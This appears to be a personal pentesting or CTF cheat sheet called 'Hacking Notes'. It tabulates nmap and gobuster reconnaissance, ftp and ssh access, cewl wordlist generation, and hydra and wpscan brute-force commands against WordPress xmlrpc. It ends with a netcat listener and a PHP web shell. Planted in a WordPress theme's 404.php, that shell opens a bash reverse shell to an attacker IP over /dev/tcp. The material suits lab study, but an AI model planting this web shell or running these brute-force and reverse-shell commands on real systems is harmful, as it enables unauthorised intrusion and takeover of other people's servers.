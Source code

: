 # Hacking Notes  

## Configuration files: 
|Description                | Command                         |Syntax                 |
|----------------|-------------------------------|-----------------------------|
| Use of VPN | openvpn           |openvpn [FILE]            |
| Use of nmap | nmap           | nmap [IP]/[RANGE] [OPTIONS]            |
| UDP nmap scan | nmap           | nmap [IP]/[RANGE] -sU             |
| TCP nmap scan (no ping) | nmap           | nmap [IP]/[RANGE] -Pn             |
| Directory discovery | gobuster           | gobuster dir -u [URL] -w [WORDLIST e.g. /usr/share/wordlists/dirb/common.txt


## Web files: 
|Description                | Command                         |Syntax                 |
|----------------|-------------------------------|-----------------------------|
| Robots File | robots.txt           | [IP]/robots.txt        |

## Data format: 
|Description                | Command                         |Syntax                 |
|----------------|-------------------------------|-----------------------------|
| Get only strings | strings           | strings [FILE]        |

## Wordpress files
|Description                | Syntax Path|                     
|----------------|-------------------------------|
| Conf backupfile | [file].swp        |

## Access
|Description                | Syntax Path|                     
|----------------|-------------------------------|
|ftp | ftp [IP]       |
|ssh | ssh [IP]       |

## Dictionaries
|Description                | Syntax Path|                     
|----------------|-------------------------------|
| cewl (Custom Word List generator) | cewl [URL] > [PWDFILE]       |


## Bruteforce

|Description                | Syntax Path|                     
|----------------|-------------------------------|
| hydra | hydra -L [USRFILE] -P [PWDFILE] [IP] -s [PORT] http-post-form "[url]:method=wp.getUsersBlogs&user=^USER^&password=^PASS^:Invalid" -V       |
| wordpress wpscan (using xmlrpc.php) | wpscan --url [URL] -U [USER] -P [PWDFILE]       |


## Privilege Escalation
Listen: nc -lvnp [PORT]

PHP Shell (Trigger)

```
<?php

if (isset($_GET['trigger'])) {
    exec("/bin/bash -c 'bash -i >& /dev/tcp/[IP]/[PORT] 0>&1'");
}
Example: http://[IP]/wordpress/wp-content/themes/[THEME]/404.php?trigger=1)
```

